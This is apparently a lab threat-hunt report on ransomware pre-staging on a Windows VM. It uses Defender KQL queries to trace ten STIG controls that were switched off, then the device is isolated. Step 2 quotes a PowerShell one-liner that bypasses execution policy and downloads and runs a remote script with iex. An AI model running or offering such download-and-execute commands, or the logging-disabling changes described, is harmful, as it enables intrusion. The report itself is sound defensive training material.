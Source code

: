 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any ([...])
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked DeviceProcessEvents for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched DeviceNetworkEvents for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985).

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp" and AdditionalFields contains "SmbIsSigned")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

Findings:
Immediately after registry flips, the host initiated WinRM HTTP to 10.0.0.15 (internal admin box). No SMB signing packets yet, but early WinRM use confirms staging.

Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|	powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|	All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|	First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
MDE action “Isolate device” executed.

---

